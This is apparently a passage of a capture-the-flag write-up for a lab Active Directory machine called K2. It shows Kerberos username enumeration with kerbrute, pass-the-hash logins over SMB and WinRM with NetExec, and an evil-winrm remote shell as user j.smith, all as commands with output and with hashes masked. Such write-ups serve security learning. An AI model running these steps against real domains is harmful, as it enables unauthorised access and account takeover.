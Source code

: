 <p align="center">Valid Username</p>
<p align="center">j.smith</p>

```bash
:~/K2# kerbrute userenum --dc K2ROOTDC -d k2.thm A.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
...
2025/09/30 xx:xx:xx >  [+] VALID USERNAME:	 j.smith@k2.thm
```

<h1 align="center">Shell as <strong>j.smith</strong></h1>
<p align="center">The hash identified for Administrator in Task 2 (••••••••••••••••••••••••••••••••) allowed to obtain shell.</p>

<br>
<br>
<br>

```bash
:~/K2# nxc smb K2RootDC.k2.thm -u 'j.smith' -H '••••••••••••••••••••••••••••••••'
SMB         xx.xxx.xxx.xx   445    K2ROOTDC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:K2ROOTDC) (domain:k2.thm) (signing:True) (SMBv1:False) 
SMB         xx.xxx.xxx.xx   445    K2ROOTDC         [+] k2.thm\j.smith:•••••••••••••••••••••••••••••••• 
```

```bash
:~/K2# nxc winrm K2RootDC.k2.thm -u 'j.smith' -H '••••••••••••••••••••••••••••••••'
WINRM       xx.xxx.xxx.xx   5985   K2ROOTDC         [*] Windows 10 / Server 2019 Build 17763 (name:K2ROOTDC) (domain:k2.thm) 
WINRM       xx.xxx.xxx.xx   5985   K2ROOTDC         [+] k2.thm\j.smith:•••••••••••••••••••••••••••••••• (Pwn3d!)
```

```bash
:~/K2# evil-winrm -i K2RootDC.k2.thm -u 'j.smith' -H '••••••••••••••••••••••••••••••••'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\j.smith\Documents>
```

<img width="1915" height="551" alt="{51BBCEF2-2489-4B24-9F51-3F4D960CFB8B}" src="https://github.com/user-attachments/assets/956a27bd-70ff-41e7-9bd6-c1df98ca8a3a" />

